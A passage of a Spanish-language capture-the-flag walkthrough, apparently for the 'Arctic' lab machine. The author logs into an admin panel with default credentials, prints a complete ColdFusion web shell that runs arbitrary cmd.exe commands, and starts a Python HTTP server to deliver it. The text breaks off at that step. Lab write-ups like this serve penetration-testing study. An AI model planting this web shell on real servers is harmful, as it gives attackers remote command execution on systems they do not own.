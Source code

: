 Nos logueamos con las credenciales `admin:happyday` y ganamos acceso al panel administrativo

![](/assets/img/Arctic/image_6.png)

Vamos a subir una `Cfm Shell` para ejecutar comandos, es descargarnos una `Cfm Shell`, en mi caso he utilizado este recurso [https://github.com/tennc/webshell/blob/master/net-friend/cfm/cfmShell.cfm](https://github.com/tennc/webshell/blob/master/net-friend/cfm/cfmShell.cfm). Hay que modificar esta ruta ` <cfexecute name="C:\Winnt\System32\cmd.exe"` por ` <cfexecute name="C:\Windows\System32\cmd.exe"`

```
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>CFM shell</title>
</head>
<body>
<!--- os.run --->
<cfif IsDefined("FORM.cmd")>
    <cfoutput>#cmd#</cfoutput>
    <cfexecute name="C:\Windows\System32\cmd.exe"
           arguments="/c #cmd#"
           outputfile="#GetTempDirectory()#foobar.txt"
           timeout="1">
    </cfexecute>
</cfif>
<form action="<cfoutput>#CGI.SCRIPT_NAME#</cfoutput>" method="post">
<input type=text size=45 name="cmd" >
<input type=Submit value="run">
</form>
<cfif FileExists("#GetTempDirectory()#foobar.txt") is "Yes">
  <cffile action="Read"
            file="#GetTempDirectory()#foobar.txt"
            variable="readText">
<textarea readonly cols=80 rows=20>
<CFOUTPUT>#readText#</CFOUTPUT>         
</textarea>
    <cffile action="Delete"
            file="#GetTempDirectory()#foobar.txt">
</cfif>
</body>
</html>
```

El siguiente paso es `crearnos` un `servidor` http con python en la ruta donde se aloja este recurso en nuestro equipo

```
# python -m http.server 80
```
